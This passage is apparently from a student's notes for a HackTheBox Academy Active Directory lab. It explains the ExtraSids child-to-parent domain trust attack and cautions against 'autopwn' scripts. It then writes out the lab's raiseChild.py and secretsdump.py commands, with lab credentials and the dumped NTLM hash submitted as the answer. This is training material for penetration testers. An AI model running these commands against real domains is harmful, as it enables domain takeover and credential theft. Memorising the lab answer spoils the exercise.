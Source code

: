 Though tools such as `raiseChild.py` can be handy and save us time, it is essential to understand the process and be able to perform the more manual version by gathering all of the required data points. In this case, if the tool fails, we are more likely to understand why and be able to troubleshoot what is missing, which we would not be able to if blindly running this tool. In a client production environment, we should **`always`** be careful when running any sort of "autopwn" script like this, and always remain cautious and construct commands manually when possible. Other tools exist which can take in data from a tool such as BloodHound, identify attack paths, and perform an "autopwn" function that can attempt to perform each action in an attack chain to elevate us to Domain Admin (such as a long ACL attack path). I would recommend avoiding tools such as these and work with tools that you understand fully, and will also give you the greatest degree of control throughout the process.

`We don't want to tell the client that something broke because we used an "autopwn" script!`

***

### More Fun

In the next section, we will briefly discuss some techniques that can be used for cross-forest trust abuse when we find ourselves in an environment with a bidirectional forest trust (meaning we can authenticate into another forest). We will not cover all possible cross-forest trust attacks, as those will be covered in great detail in later modules.

## **Questions**

Perform the ExtraSids attack to compromise the parent domain from the Linux attack host. After compromising the parent domain obtain the NTLM hash for the Domain Admin user bross. Submit this hash as your answer.

```bash
ssh htb-student@10.129.11.85  
cd /opt/impacket/examples
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm  #(pass is HTB_@cademy_stdnt_admin!)
#we get a system shell with output
```

after getting system shell open another root terminal and ssh into parrot box and run secretdumps.py to get bross hash.

```bash
secretsdump.py -outputfile inlanefreight_hashes -just-dc-ntlm INLANEFREIGHT/adunn@172.16.5.5 | grep bross #pass for adunn is SyncMaster757
#inlanefreight.local\bross:1179:aad3b435b51404eeaad3b435b51404ee:49a074a39dd0651f647e765c2cc794c7:::
```

49a074a39dd0651f647e765c2cc794c7
